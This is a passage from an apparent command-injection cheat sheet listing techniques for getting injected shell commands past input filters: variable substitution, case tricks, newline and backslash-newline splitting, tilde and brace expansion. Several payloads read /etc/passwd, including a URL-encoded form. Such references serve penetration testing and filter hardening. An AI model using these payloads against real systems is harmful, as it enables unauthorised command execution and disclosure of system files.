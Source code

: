 Command can be defined in variable
   ```bash
   var=whoami
   $var
   ```

### Bypass via Random Case
In Windows, many commands are case-insensitive due to the nature of the Windows filesystem and command interpreter (`cmd.exe` or `PowerShell`).

   ```powershell
    WHOaMi
   ```


### Bypass With A Line Return

Commands can also be run in sequence with newlines

```bash
original_cmd_by_server
ls
```

### Bypass With Backslash Newline

* Commands can be broken into parts by using backslash followed by a newline

  ```powershell
  $ cat /et\
  c/pa\
  sswd
  ```

* URL encoded form would look like this:

  ```powershell
  cat%20/et%5C%0Ac/pa%5C%0Asswd
  ```

### Bypass With Tilde Expansion

```powershell
echo ~+
echo ~-
```

### Bypass With Brace Expansion

```powershell
{,ip,a}
{,ifconfig}
{,ifconfig,eth0}
{l,-lh}s
{,echo,#test}
{,$"whoami",}
{,/?s?/?i?/c?t,/e??/p??s??,}
```
